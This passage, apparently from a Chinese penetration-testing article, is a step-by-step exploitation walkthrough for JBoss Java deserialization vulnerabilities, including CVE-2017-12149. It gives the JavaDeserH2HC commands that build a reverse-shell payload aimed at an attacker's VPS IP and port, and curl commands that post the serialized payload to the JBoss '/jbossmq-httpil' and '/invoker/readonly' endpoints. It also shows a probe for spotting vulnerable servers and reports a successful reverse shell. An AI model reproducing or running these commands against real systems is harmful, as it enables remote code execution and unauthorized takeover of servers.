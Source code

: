 此处我们使用 JavaDeserH2HC 工具来利用该漏洞, 尝试直接弹回一个 shell

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 反弹的IP:端口
curl http://目标IP:8080/jbossmq-httpil/HTTPServerILServlet/ --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauh9R70fLMicmR90OFFU0rzopvnrDt4tbWmLQicibzUrKvh45T4LxWtAJhAg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhZUmhJYyLrZZiaFThr6LHTF6sRmD951LOL6I0UaVMMCvOialwRpELEPFg/640?wx_fmt=png)

成功反弹 shell

JBoss 5.x/6.x CVE-2017-12149 反序列化漏洞  
漏洞描述

```
该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。
该漏洞出现在\*\*/invoker/readonly\*\*请求中，服务器将用户提交的POST内容进行了Java反序列化,导致传入的携带恶意代码的序列化数据执行。
```

影响版本  
JbossAS 5.x  
JbossAS 6.x

漏洞验证 POC  
http:// 目标: 8080/invoker/readonly 如果出现报 500 错误, 则说明目标机器可能存在此漏洞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauh39DGP8Bl9pJTbH6ftSvL0vJG2XpjgVXbWcTOia3XlJbN0MzRRjw1weA/640?wx_fmt=png)

漏洞利用  
首先从 http 响应头和 title 中一般情况下都能看到信息来确定目标 jboss 版本是否在此漏洞版本范围

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhBxNfumYH6qoDCRQH2k2kphNKeztqMy08ElWYFcgBedF91jh4L2iaWcQ/640?wx_fmt=png)

现成工具

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhXawr2ZQgibcGSSwia4wjZoV07dJia8zopvgFz1SzgcfnakXvW9CGORPrA/640?wx_fmt=png)

接下来借助 JavaDeserH2HC 来完成整个利用过程  
首先尝试直接反弹 shell, 利用 JavaDeserH2HC 创建好用于反弹 shell 的  
payload, 如下

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap vps的ip:端口 
然后尝试利用curl发送payload到目标机器上执行后，发现vps已成功接弹回的shell
curl http://www.target.net/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhfop6Sf553hPoeM8icPwSuTbUOB66kCfp4DrzeHSDthZ5IpYx5PiafeeQ/640?wx_fmt=png)
